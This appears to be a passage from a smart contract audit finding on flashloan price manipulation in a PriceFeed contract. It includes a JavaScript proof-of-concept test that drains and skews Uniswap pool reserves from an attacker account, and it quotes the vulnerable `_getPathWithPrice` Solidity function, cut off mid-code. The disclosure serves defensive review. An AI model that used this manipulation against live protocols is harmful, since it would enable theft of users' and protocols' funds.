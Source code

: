 ## Proof of Concept

A proof-of-concept has been implemented in `test/vulnerabilities/PriceFeed.flashloan.test.js` that demonstrates:

1. How an attacker can manipulate the token paths with flashloans
2. The significant price difference achieved through the manipulation
3. How to extract value from the protocol using this manipulation

The key sections of the PoC are:

```javascript
// 1. Drain most of the MANA from the MANA-USD pool to manipulate the exchange rate
const drainAmount = wei(reserveTokens.mul(toBN(9)).div(toBN(10))); // Drain 90% of MANA
await MANA.mint(ATTACKER, drainAmount);
await MANA.approve(uniswapV2Router.address, drainAmount, { from: ATTACKER });
await uniswapV2Router.setReserve(MANA.address, wei(reserveTokens.div(toBN(10))), { from: ATTACKER }); // Only 10% of MANA left

// 2. Add a lot of USD to the MANA-USD pool to make the path more favorable
await USD.mint(ATTACKER, drainAmount.mul(toBN(10)));
await USD.approve(uniswapV2Router.address, drainAmount.mul(toBN(10)), { from: ATTACKER });
await uniswapV2Router.setReserve(USD.address, wei(reserveTokens.mul(toBN(10))), { from: ATTACKER }); // 10x more USD

// 3. Get the manipulated price - during the "flashloan attack"
const manipulatedPrice = await priceFeed.getExtendedPriceOut.call(DEXE.address, USD.address, wei("1000"), [[], []]);
```

The test demonstrates that the price can be manipulated to be at least 2x the normal price, allowing the attacker to profit significantly at the expense of the protocol.

## Root Cause

The root cause is in the `UniswapPathFinder` library, specifically in the `_getPathWithPrice` function:

```solidity
function _getPathWithPrice(
    EnumerableSet.AddressSet storage pathTokens,
    uint256 amount,
    address tokenIn,
    address tokenOut,
    bool exactIn,
    IPriceFeed.SwapPath calldata providedPath
) internal returns (IPriceFeed.SwapPath memory foundPath, uint256 bestAmount) {
    if (amount == 0) {
        return (foundPath, 0);
    }

    bestAmount = exactIn ? 0 : type(uint256).max;

    // Direct path
    {
        address[] memory path2 = new address[](2);
        path2[0] = tokenIn;
        path2[1] = tokenOut;

        (IPriceFeed.SwapPath memory foundPath2, uint256 currentAmount) = _calculatePathResults(
            path2,
            amount,
            exactIn
        );

        if (exactIn ? currentAmount > bestAmount : currentAmount < bestAmount) {
```
